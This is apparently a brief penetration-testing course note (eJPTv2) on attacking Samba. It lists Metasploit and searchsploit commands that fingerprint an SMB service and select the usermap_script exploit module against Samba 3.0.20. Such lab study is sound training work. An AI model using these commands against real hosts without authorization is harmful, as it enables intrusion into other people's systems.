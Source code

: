 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/Exploitation/Linux Exploitation/Linux Exploitation]]"
---
```


# Targeting SAMBA

## Demonstration

```bash
# samba smbd port 445
> use smb_version
$ searchsploit samba 3.0.20
> use multi/samba/usermap_script
```
